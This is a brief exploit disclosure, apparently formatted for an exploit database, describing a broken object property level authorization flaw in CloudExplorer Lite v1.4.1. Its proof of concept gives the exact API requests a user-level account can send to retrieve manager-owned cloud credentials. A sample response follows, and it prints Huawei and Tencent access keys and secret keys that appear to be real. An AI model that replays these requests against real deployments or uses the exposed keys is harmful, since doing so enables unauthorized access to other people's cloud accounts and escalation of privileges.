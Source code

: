 # Exploit Title: CloudExplorer Lite v1.4.1 - Broken Object Property Level Authorization(BOPLA)
## Date: 12/3/2023
## Vendor Homepage: https://github.com/CloudExplorer-Dev/CloudExplorer-Lite/releases/tag/v1.4.1
## Tested on: Ubuntu, CentOS
## Vendor: CloudExplorer Lite
## Version: v1.4.1
## Exploit Description:
## CloudExplorer Lite v1.4.1 suffers from BOPLA - Broken Object Property Level Authorization Vulnerability allowing attackers(at the user-level) to use Burp Suite to access elastic compute service's api key which has full access to the account owned by manager(vertical privilege escalation). The vulnerability occurs when users select cloud accounts to create cloud hosts.

## -----------------------------------------------POC-------------------------------------------------------------------
```
Request:
GET /management-center/api/cloud_account/page?currentPage=1&pageSize=10 HTTP/2
or:GET /vm-service/api/server/catalog/goods HTTP/1.1

Response:
"records":[
    {
        "id":
        "a55db3fe3b5226348b8e342b0de6dd7e",
        "name":"华为云测试—只读权限",
        "platform":"fit2cloud_huawei_platform",
        "credential":
        "{\"ak\":\"4YZB2GCAKE5KUGJGRJGB\",\"sk\":\"ppgeyoYacUpkJCF7xXiFEs1dzLUrNiWut3DF74jN\"}",
        "state":true,
        "status":"SUCCESS",
        "createTime":"2023-04-10 15:41:40",
        "updateTime":"2023-12-03 20:00:00"},
        {"id":"afb99206f90eadcf8ce647025f9772d3",
        "name":"腾讯云测试—只读权限",
        "platform":"fit2cloud_tencent_platform",
        "credential":"{\"secretId\":\"AKIDSaPqHb1RmGckMeopVsBKON9lFZ6LaeQ1\",\"secretKey\":\"V9dv560pcJMG1d6WDoHdy9PXWQOFbp1B\"}",
        "state":true,
        "status":"SUCCESS",
        "createTime":"2023-04-10 15:48:55",
        "updateTime":"2023-12-03 19:30:00"
    }
]
```
